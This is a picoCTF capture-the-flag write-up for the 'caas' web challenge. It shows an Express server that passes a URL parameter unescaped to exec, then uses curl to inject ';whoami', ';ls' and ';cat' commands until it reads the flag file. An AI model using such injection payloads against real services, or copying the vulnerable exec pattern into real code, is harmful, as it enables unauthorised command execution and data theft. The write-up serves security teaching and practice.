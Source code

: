 # caas

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 150
Tags: picoMini by redpwn, Web Exploitation
Author: BROWNIEINMOTION

Description:
Now presenting cowsay as a service

Hints:
(None)
```

## Solution

### Analyze the code

Lets start by browsing to the web site and see what we find.  
The following text is displayed
```
Cowsay as a Service

Make a request to the following URL to cowsay your message:
https://caas.mars.picoctf.net/cowsay/{message}
```

Lets also check the HTML source code. Press `CTRL + U ` or right-click anywhere on the background and select `View page source`
```html
<!doctype html>
<html>
    <head>
        <link rel="stylesheet" href="styles.css"/>
        <script src="index.js"></script>
        <title>CaaS</title>
    </head>
    <body>
        <h1>Cowsay as a Service</h1>
        <strong>Make a request to the following URL to cowsay your message:</strong>
        <br>
        <code></code>
    </body>
</html>
```

Nothing much to see there. But there is also a `index.js` script. Lets check that
```javascript
(async () => {
  await new Promise(r => window.addEventListener('load', r));
  document.querySelector('code').textContent =
    `${window.origin}/cowsay/{message}`;
})();
```

We were also given a `index.js` from the server side
```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

Ah, we can see that whatever message we send gets executed with `exec`.  
Maybe we can use command injection?

### Exploit the service

Lets first just use the service as intended with `curl`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl https://caas.mars.picoctf.net/cowsay/picoCTF
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

Lets see if we can inject code, in this case `whoami`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl "https://caas.mars.picoctf.net/cowsay/picoCTF;whoami"
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
node
```

Yes, we can! And we are running as the `node` user.

### Get the flag

Lets start looking for the flag with `ls`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl "https://caas.mars.picoctf.net/cowsay/picoCTF;ls"
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

There is a `falg.txt` file. Sneaky!

Lets try to read it
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl "https://caas.mars.picoctf.net/cowsay/picoCTF;cat falg.txt"
curl: (3) URL using bad/illegal format or missing URL
```

Ah, forgot to URL encode the space (should be `%20`)
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl "https://caas.mars.picoctf.net/cowsay/picoCTF;cat%20falg.txt"
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

### References

- [Wikipedia - Command/code injection](https://en.wikipedia.org/wiki/Code_injection)
- [Wikipedia - URL encoding](https://en.wikipedia.org/wiki/URL_encoding)
